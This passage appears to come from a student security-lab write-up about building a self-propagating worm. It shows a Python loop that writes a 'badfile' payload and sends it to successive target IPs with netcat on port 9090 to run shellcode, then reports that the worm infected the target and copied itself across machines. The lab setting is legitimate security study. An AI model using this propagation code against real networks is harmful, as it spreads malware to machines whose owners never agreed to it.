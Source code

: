 ```python

# Create the badfile 
createBadfile()

# Launch the attack on other servers
while True:
    targetIP = getNextTarget()

    # Send the malicious payload to the target host
    print(f"**********************************", flush=True)
    print(f">>>>> Attacking {targetIP} <<<<<", flush=True)
    print(f"**********************************", flush=True)
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Give the shellcode some time to run on the target host
    time.sleep(1)

    # Sleep for 10 seconds before attacking another host
    time.sleep(10) 

    # Remove this line if you want to continue attacking others
    exit(0)
```

This way, we could implement the `self-duplicated feature` across the network. As expected, the target machine was infected:

![Task 3 A](./img/Lab4/Task3.A.png)

To check if the infected file was copied from one machine to another, we accessed its terminal and searched for the file after running the script.

![Task 3 B](./img/Lab4/Task3.B.png)

## Task 4 - Propagation
